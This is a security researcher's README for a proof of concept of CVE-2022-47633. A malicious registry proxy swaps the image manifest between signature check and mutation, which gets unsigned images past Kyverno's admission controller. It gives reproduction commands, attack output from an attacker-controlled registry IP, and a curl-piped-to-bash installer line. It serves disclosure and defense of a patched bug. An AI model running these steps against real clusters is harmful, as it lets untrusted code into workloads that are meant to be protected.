

# ☢️ CVE-2022-47633: POC on "Bypassing container signature validation in Kubernetes Admission Controllers" ☢️

This repository contains all the scripts and artifacts which you need to re-run the proof of concept attack which I did on a Kubernetes cluster and Kyverno Admission Controller.

If you already know everything and just want to re-run the attack, go to direcly to [reproducing the attack section](#reproducing-the-attack) :sunglasses:

# Short description

Security researchers at [ARMO](https://armosec.io) have found a high-severity vulnerability in the Kyverno admission controller container image signature verification mechanism. The vulnerability enables an attacker who is either running a malicious container image registry, or is able to act as a proxy between the registry and Kyverno, to inject unsigned images into the protected cluster, bypassing the image verification policy. 

The vulnerability was introduced in version 1.8.3 and was fixed in version 1.8.5. 

# Background stuff 📖

## Why? ❓
Supply chain security is a thoroughly discussed topic in the Cloud Native community. It comes as no surprise that projects like Kyverno have started to incorporate supply-chain security measures into their offerings.

In order to secure supply chains, validation of software components should happen at every step from development to production. Container images are an obvious potential attack vector, so it is critical that they are validated to ensure that only verified code is running in a Kubernetes cluster. If an attacker is able to control the contents of an image that is pulled into the cluster, the attacker can effectively take control of a victim’s pod and use all of its assets and credentials, including the service account token to access the API server.

In order to protect a Kubernetes cluster against malicious container images, security-focused  admission controllers offer policies that can enforce container image signatures. Their promise is that with an admission controller, users can create a policy to only have validated images running inside the cluster.


## Image signature validation flow in Admission Controllers ✍️
Here is the way signature validation works in admission controllers. (see drawing and steps below)

1. A new workload, defined via an image with a tag, is requested from the Kubernetes API server.
2. The API server asks the admission controller to validate the new workload. The admission controller controls whether a workload can be started on (“admitted to”) the cluster.
3. The admission controller, configured to validate the image signature, requests the image manifest and the signature from the container registry.
4. The container registry supplies both the signature and the image manifest itself. 
5. Depending on whether the image manifest and the signature are correct, the admission controller allows the new workload into the cluster. To prevent spoofing, Kyverno changes the image to be pulled by its cryptographic hash, and not its tag, which is mutable.
6. The API server asks the Kubelet to start the new workload.
7. The Kubelet asks the container runtime to start a new container based on the image and hash from step 5.
8. The container runtime downloads the image manifest and its layers from the container registry.
9. The container runtime starts the new container based on the image.


# The attack 🔪 🏴‍☠️

## Goal

An attacker’s goal may be to inject an unsigned image into a cluster which should only be running signed images.

In this attack, we assume the attacker controls a malicious container registry, or has set up a proxy between the registry and the target. The attacker attempts to trick the user into running a Pod with an image from this registry. Meanwhile, the cluster administrator has a policy in place to protect the cluster from malicious images by enforcing container signatures. From the cluster administrator's perspective, no unsigned images can be admitted into the cluster.


## Setup

In the POC we had the following components in our hand:
* Minikube + Kyverno (added my Root CA certificate to both, did this to make the POC simpler, however, could have been more sophisticated with a “Let’s Encrypt” cerficiate)
* Container signing key-pair
* Namespace called “signed” with an enforced policy on image signatures (with the public key of the keypair)
* One signed image with the private key in docker hub
* One unsigned image in docker hub
* Proxy server I wrote to be a Man-in-the-Middle between the cluster and docker hub (see the code at the end of this document)

The proxy server behaves in the following way: if it sees that the Admission Controller is asking for an signed image it returns a signed image for signature validation and an unsigned image manifest for the mutation. In any other cases, it just proxies the information between the cluster and docker hub.


## Setup

The attack steps are as follows:

1. The user is convinced to run the signed image from the malicious container registry, or to use a malicious proxy to download images. 
2. The API server asks the admission controller for approval.
3. The admission controller asks for the image manifest based on the image tag. Based on the manifest, it gets the image hash and asks for the signature for the signed image based on image hash.
4. The malicious proxy returns the signed image signature to the admission controller.
5. The admission controller verifies the signature of the signed image.
6. Due to a bug in Kyverno, the admission controller requests the manifest of the signed image for a second time to get the digest for mutation.
7. The malicious registry returns the manifest of a different image – this one unsigned and malicious.
8. The admission controller changes (mutates) the image in the Pod spec from image tag to image hash and gives approval to the API server.
9. The Pod starts, running the unsigned image.


Malicious proxy code can be seen [here](proxy-server.py)

**The container is started based on the unsigned image**

The problem is that the image manifest is downloaded twice. It is pulled once for signature validation and a second time for mutating the image name in the Pod spec. This is a classic example of a [TOCTOU](https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use) problem that allows the attacker to pull a bait-and-switch. Since the image manifest which will eventually be used is not the same as the one which was verified, this enables the attacker to trick the client.

## Summary
Kyverno implements a mechanism to verify container images against supply chain attacks. It automatically substitutes the image tag for the digest on first use. However, a bug introduced in Kyverno 1.8.3 can cause multiple tag-based queries to the image registry, which can be exploited by attackers. This problem has been fixed promptly by the Kyverno team, in version 1.8.5, and users should update to the latest version. The fix ensures that the same image hash is used to change the workload specification as was used to verify the signature. 

Additional recommendations: 
Implement a policy that only allows trusted registries, which would prevent the malicious registry from being used. 
Use Kubescape to scan container image registries in order to make sure you’re not pulling malicious images. Kubescape has developed a dedicated control – C-0091– in the ARMOBest framework verifying if this CVE exists in your cluster. Please install or update to the latest Kubescape version from GitHub, or via the following command:

```bash
curl -s https://raw.githubusercontent.com/armosec/kubescape/master/install.sh | /bin/bash
kubescape scan control C-0091
```

# Reproducing the attack

**Note:** Since image registry API assumes HTTPS (for good!) the attacker must obtain a valid TLS Certificate for the proxy/server. In this POC I decided to create my own Root CA and embed it both Kubernetes and Kyverno to bypass this problem. This is not an ideal choice for a real life attacker who could solve this in different ways (for example: buying a domain and obtaining Let's Encrypt signed certificate for that domain). 

Note that the way I solved this here is not limiting the problem, but helps this demontration to be more easily to demostrate.

## Setting up the cluster

### Run the script
I have prepared a convinient script (tested on Ubuntu)
```shell{:copy}
./setup-cluster.sh
```
If you want to do it yourself, do the following steps otherwise skip to [Setting up malicious proxy](#setting-up-malicious-proxy)
### Minikube 
Creating a minikube instance with an added root CA certificate (see note above).
```shell{:copy}
cp certs/benCA.pem $HOME/.minikube/certs/. # adding the own root CA to minikube (see comments above)
minikube start --driver=docker --embed-certs
```

### Installing Kyverno
Note I am using my own Kyverno image which was built using `kyverno-image/Dockerfile`. The only difference between the official Kyverno image and `hisu/kyverno` is that my build contains the extra root CA certificate.
 (see note above)
```shell{:copy}
helm install kyverno kyverno/kyverno -n kyverno --create-namespace --set replicaCount=1 --set image.repository=hisu/kyverno
helm install kyverno-policies kyverno/kyverno-policies -n kyverno
```

### Creating a protected namespace
Here I am creating the namspace `signed` and I am adding a policy which should only allow images which were signed by `cosign.key` to be admitted in it.
```shell{:copy}
kubectl create ns signed
kubectl apply -f signed-policy.yaml
```

### Container images in Dockerhub

I have created two images:

1. `hisu/cosign-test:signed`: Image based on nginx:latest and signed by `cosign.key`
2. `hisu/cosign-test:unsigned`: Image built with the Dockerfile at `nginx-alternative-image/Dockerfile` with a single file change 


### Proving the policy works

I cannot run the unsigned image, this command should fail:
```shell{:copy}
kubectl -n signed run unsigned --image=hisu/cosign-tests:unsigned --image-pull-policy='Always'
```


And this should succed
```shell{:copy}
kubectl -n signed run signed --image=hisu/cosign-tests:signed --image-pull-policy='Always'
```

## Setting up malicious proxy

The IP of your proxy is important for the sake of this demonstration. It needs to be accessible both for the node (image pull by the container runtime) and the admission controller POD (checking image signature).

Let's bring up the malicious proxy. I have created a simple script to create signed certificate for the proxy and start the proxy. To run:
```shell{:copy}
./setup-malicious-proxy.sh <IP>
```

## Showing attack

### Running the guided script

You can run also the following script to run through all the positive and negative cases:
```shell{:copy}
$ ./running-attack-tests.sh <MY IP>
1> Trying to run unsigned image in signed namespace
----------------------------------------
kubectl -n signed run unsigned --image=hisu/cosign-tests:unsigned --image-pull-policy=Always
Error from server: admission webhook "mutate.kyverno.svc-fail" denied the request: 

policy Pod/signed/unsigned for resource violation: 

check-image:
  check-image: |
    failed to verify image docker.io/hisu/cosign-tests:unsigned: .attestors[0].entries[0].keys: no matching signatures:
----------------------------------------
Press enter to continue
2> Trying to run signed image in signed namespace
----------------------------------------
kubectl -n signed run signed --image=hisu/cosign-tests:signed --image-pull-policy=Always
pod/signed created
----------------------------------------
2> Succeeded to run signed image in signed namespace
Press enter to continue
3> Trying to run signed image in signed namespace by using the proxy
----------------------------------------
kubectl -n signed run unsigned --image=10.144.94.202:4443/hisu/cosign-tests:signed --image-pull-policy=Always
pod/unsigned created
----------------------------------------
3> Waiting for pod to be ready
pod/unsigned condition met
3> Checking HTTP response from the pod
----------------------------------------
Forwarding from 127.0.0.1:8080 -> 80
Forwarding from [::1]:8080 -> 80
curl -s -k -v http://localhost:8080
*   Trying 127.0.0.1:8080...
<h1>Hacked!</h1>
 ___ _   _  ___ ___ ___  ___ ___ 
/ __| | | |/ __/ __/ _ \/ __/ __|
\__ \ |_| | (_| (_|  __/\__ \__ \
|___/\__,_|\___\___\___||___/___/

3> Proxy could inject an unsigned image in signed namespace
----------------------------------------
Press enter to continue
pod "unsigned" deleted
pod "signed" deleted
```

### Running a standalone unsigned image
If you run:
```shell{:copy}
kubectl -n signed run unsigned --image=<IP>:4443/hisu/cosign-tests:signed --image-pull-policy='Always'
```

See here



